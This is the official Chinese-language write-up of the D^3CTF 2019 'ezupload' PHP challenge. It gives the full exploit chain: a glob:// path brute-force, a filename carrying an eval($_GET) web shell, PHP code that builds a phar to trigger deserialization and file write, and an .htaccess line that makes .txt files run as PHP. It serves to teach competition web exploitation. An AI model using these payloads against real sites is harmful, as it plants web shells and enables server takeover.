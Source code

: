 # D^3ctf 2019 Official Writeup ezupload
:::info
> 出题人：Lou00@Vidar
> 考察点：glob://爆破 文件上传写shell
> 题目描述: webroot in /var/www/html
> hint1: webroot changes every 10 mins
> hint2: glob
> hint3: https://www.php.net/manual/en/language.oop5.decon.php   Pay attention to the notes in the article 
:::
## 前言
赛后看到了Nu1l的非预期,直接把第一考点绕过了
导致给的一些hint没啥用 (hint真是害人不浅_(:з」∠)_
## 预期解
通过审计代码可以发现存在反序列化漏洞,可以任意文件写入
但是如果是用相对路径的话,发现无法写入
通过hint3知道
![-w828](http://image.lou00.top/img/ezupload/15747757481797.jpg)
在析构函数中工作目录可能会变
以下代码可以测试
![-w344](http://image.lou00.top/img/ezupload/15747755154564.jpg)
意思是要找到绝对路径
所以第一部分的payload是
```
action=count&url=1&filename=1&dir=glob:///var/www/html/*/upload/{your_upload_path}/*
```
通过爆破得到路径(然而非了
得到路径后就可以通过文件名写shell了
构造类似与下面的文件名
```
action=upload&url=http://xxx&filename=<?php echo 1.1;eval($_GET["a"]);
```
构造反序列化

```php
<?php
class dir{
    public $userdir;
    public $url;
    public $filename;
    public function __construct($usedir,$url,$filename){
	$this->userdir = $usedir;
	$this->url = $url;
	$this->filename = $filename;
    }
}
$a = new dir('upload/{your_upload_path}','','');
$b = new dir($a,'','/var/www/html/xxx/upload/{your_upload_path}/2');
$phar = new Phar("phar.phar"); 
$phar->startBuffering();
$phar->setStub("__HALT_COMPILER();?>;"); 
$phar->setMetadata($b); 
$phar->addFromString("test.txt", "test"); 
$phar->stopBuffering();
echo urlencode(serialize($b));
```
上传后通过`file_get_contents`触发

```
action=upload&url=phar://upload/{your_upload_path}/1.jpg&filename=2.jpg
```
然后就会发现一个带有`<?`的txt文件
最后上传一个`.htaccess`文件
内容为

```
AddHandler php7-script .txt
```
即可解析php
最后是bypass `open_basedir`
最后附上一份比赛时用于检测flag的[脚本](https://github.com/Lou00/d3ctf_2019_ezupload/blob/master/poc.py)
供师傅们参考
